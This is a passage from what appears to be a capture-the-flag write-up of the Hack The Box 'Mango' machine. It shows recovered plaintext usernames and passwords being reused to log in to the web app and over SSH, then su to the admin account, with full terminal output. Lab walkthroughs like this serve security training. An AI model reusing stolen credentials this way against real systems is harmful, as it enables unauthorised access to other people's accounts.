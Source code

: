 So we've got two usernames: `admin` and `mango`, and two passwords: `h3mXK8RhU~f{]f5H` and `t9KcS3>!0B#2`.

Let's just try logging in? The combination `admin` and `t9KcS3>!0B#2` works. We see a notice to email them as the site is under construction. The email given is: `admin@mango.htb`, so maybe there's a mailserver we can target? Just to be thorough, I checked the combination `mango` and `h3mXK8RhU~f{]f5H` and saw the same page.

I ran `$ dig mango.htb` and `$ dig staging-order.mango.htb` to try to find a mailserver, but had no luck. Then I remembered that port 22 is open, so what if we just `ssh` into the machine?

```bash
$ ssh admin@10.10.10.192 # Password: t9KcS3>!0B#2
# Login Failure

$ ssh mango@10.10.10.162
mango@10.10.10.162's password: # h3mXK8RhU~f{]f5H
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Apr  4 14:03:44 UTC 2020

  System load:  0.0                Processes:            100
  Usage of /:   24.8% of 19.56GB   Users logged in:      0
  Memory usage: 29%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.


Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
mango@mango:~$ cd home/admin
mango@mango:/home/admin$ ls
user.txt
mango@mango:/home/admin$ cat user.txt
cat: user.txt: Permission denied
$ su - admin
Password:
$ ls
user.txt
$ whoami
admin
$ wc user.txt
 1  1 33 user.txt
```
